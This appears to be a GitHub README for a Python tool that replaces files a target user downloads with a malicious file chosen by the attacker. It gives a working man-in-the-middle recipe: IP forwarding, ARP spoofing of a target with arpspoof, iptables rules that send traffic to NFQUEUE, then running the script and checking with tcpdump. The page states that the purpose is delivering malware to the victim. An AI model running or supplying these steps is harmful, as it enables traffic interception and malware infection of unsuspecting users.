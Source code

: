 ### Replace downloads  
is a program to replace the download file which target user downloads.  
We can modify what user downloading and we can replace it with file which we want user should downloads, a malicious file.
Modifying every requests manually after intercepting each request will be time consuming, to solve this, we automate it.  
  
### usage - sudo python2 replace_downloads.py 
or sudo python replace_downloads.py 
<pre>
Steps:  
    0. Update script with required changes - updating host and file to file.  
    1. Forward all packets to our computer  
        1. echo 1 > /proc/sys/net/ipv4/ip_forward  
    2. ARP Spoof  
	1. arpspoof -i eth0 -t 10.0.2.15 10.0.2.1  
	2. arpspoof -i eth0 -t 10.0.2.1 10.0.2.15  
    3. Forward all dns - block all real packets  
    	To test in local system or same system  
	  1. sudo iptables -I OUTPUT -j NFQUEUE --queue-num 0  
          2. sudo iptables -I INPUT -j NFQUEUE --queue-num 0  
            or we can route for specific port
          1. sudo iptables -I OUTPUT -p tcp --sport 80 -j NFQUEUE --queue-num 0  
	  2. sudo iptables -I INPUT -p tcp --dport 80 -j NFQUEUE --queue-num 0  
       To test in other system, target system  
          1. sudo iptables -I FORWARD -j NFQUEUE --queue-num 0     
    4. sudo python2 replace_downloads.py or sudo python replace_downloads.py 
    5. To check if its working  
        1. tcpdump -i eth0 udp port 53  
        2. sudo iptables -L -v -n  
        3. sudo tcpdump -i any port 80 -A | grep ".jpg"  
        4. sudo tcpdump -i any -A port 80 | grep -Ei "\.jpg|\.exe|\.pdf"  
    6. After completing - flush the rules  
        1. iptables --flush  
        2. iptables -t nat -F  
</pre> 
  
Run the steps following them and we can spoof and replace the file in target system.  
  
Requirements - install required libraries. For help, refer tools section
